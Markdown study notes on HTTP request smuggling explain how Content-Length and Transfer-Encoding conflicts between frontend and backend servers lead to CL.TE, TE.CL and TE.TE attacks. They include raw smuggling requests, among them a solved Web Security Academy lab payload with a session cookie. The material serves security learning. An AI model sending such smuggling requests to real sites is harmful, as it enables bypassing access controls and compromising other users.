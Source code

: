 ## HTTP Request Smuggling

### Overview
- Interfering with the way a site processes sequences of HTTP requests received from one or more users
- Usually allows bypassing security controls, gaining of unauthorized access, compromising other users 
- Primarily associated with HTTP/1 requests; however, some HTTP/2 vulnerable depending on backend architecture
- Today's web apps usually employ chains of HTTP servers between users and the ultimate logic: users send requests to the frontend server (sometimes called a load balancer or reverse proxy) and this server forwards the request(s) to one or more backend servers. 
- Typically, when the frontend server forwards HTTP requests to the backend server, it sends several requests over the same connection for efficiency and performance. HTTP requests are sent one after another, and the receiving server has to determine where one request ends and the next one begins: 

![User Requests from Frontend to Backend](Photos/forwarding-http-requests-to-back-end-server.svg)

- An attacker can try and trick the backend server. For example, an attacker might send an ambiguous request that gets interpreted differently by the frontend and the backend systems. In this example, the attacker causes part of their frontend request to be interpreted by the backend server as the start of the next request. It is effectively prepended to the next request and can interfere with the way the application processes that request:

![alt text](Photos/smuggling-http-request-to-back-end-server.svg)

### How Does This Happen?

- HTTP/1 specification provides two different ways to specify where a request ends:
    1. `Content-Length` header: Pretty straightforward. Specifies the length of the message body in bytes. 
    2. `Transfer-Encoding` header: Specify that the message body uses chunked encoding. Means that the message body contains one or more chunks of data. Each chunk consists of the chunk size in bytes (expressed in a hexadecimal), followed by a newline, followed by the chunk contents. Terminated with a chunk of size zero. For example, hexadecimal of B is 11 (binary: 1011), so b for q=smuggling.

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

```
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

b
q=smuggling
0
```
- Burp Suite auto unpacks chunked encoding to make messages easier to view and edit. Browsers do not normally use chunked encoding in requests, and it is normally seen only in server responses. 
- Since the HTTP/1 specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The specification attempts to prevent this problem by stating if both the `Content-Length` and `Tranfer-Encoding` headers are present, then the `Content-Length` header should be ignored. This may be sufficient to avoid ambiguity when only a single server is in play, but not when two or more servers are chained together. In this situation, problems can arise for two reasons:
    1. Some servers do not support the `Transfer-Encoding` header in requests
    2. Some servers that do support the `Transfer-Encoding` header can be induced not to process it if the header is obfuscated in some way
- If the frontend and backend servers behave differently in relation to the (possibly obfuscated) `Transfer-Encoding` header, then they might disagree about the boundaries betwen successive requests, leading to request smuggling vulnerabilities. 
- HTTP/2 end-to-end is inherently immune to request smuggling as it introduces a single, robust mechanism for specifying the length of a request. There is no way for an attacker to introduce the required ambiguity. HOWEVER, many websites have HTTP/2 frontend, but deploy backend infrastructure that only supports HTTP/1. This means frontend has to translate the requests it receives to HTTP/1. Known as HTTP downgrading - more on this in more advanced request smuggling. 

### How to Perform Request Smuggling
- Classic request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP/1 request and manipulating these so that the frontend and the backend servers process the request differently. This is done in different ways depending on the behavior of the two servers:
    - **CL.TE**: The frontend server uses the `Content-Length` header and the backend server uses the `Transfer-Encoding` header. 
    - **TE.CL**: The frontend server uses the `Transfer-Encoding` header and the backend server uses the `Content-Length` header.
    - **TE.TE**: The frontend and the backend servers both support the `Transfer-Encoding` header, but one of the servers can be induced not the process it by obfuscating the header in some way. 
- These are only possible, as mentioned, using HTTP/1 requests. Browsers and other clients, including Burp, use HTTP/2 by default to communicate with servers that explicitly advertise support for it during the TLS handshake. When testing sites with HTTP/2 support, you will need to manually swith protocols in Burp Repeater. You can do this in the `Request attributes` section of the Inspector panel. 

### CL.TE Vulnerabilities
- The frontend server uses the `Content-Length` header and the backend server uses the `Transfer-Encoding` header. Perform a simple HTTP request smuggling attack as follows in the code block below. The frontend processes the `Content-Length` header and determines the request body is 13 bytres long, up to the end of `SMUGGLED`. Request is forwarded to backend server. 
- Backend server processes the `Transfer-Encoding` header and treats the message body as using chunked encoding. It processes the first chunk, stated to be zero length, and so is treated as terminating the request. The following bytes, SMUGGLED, are left unprocessed, and the backend server treats them as the start of the next request in the sequence. 

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

#### Lab: HTTP Request Smuggling, Basic CL.TE Vulnerability
- Involves a frontend and backend, and the frontend does not support chunked encoding. The frontend server rejects requests that aren't using GET or POST method. To solve, smuggle a request to the back-end server so that the next request processed by the backend server appears to use the method `GPOST`. 

```
POST /post/comment HTTP/1.1
Host: 0a6a0085043d4777a0b4b6c700920024.web-security-academy.net
Cookie: session=d4CNLJNIRZeA47ItYi9ktIm1ovuiqVdb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6a0085043d4777a0b4b6c700920024.web-security-academy.net/post?postId=9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: yellow
Priority: u=0, i
Content-Length: 1
Transfer-Encoding: chunked

0

G
```

![alt text](image.png)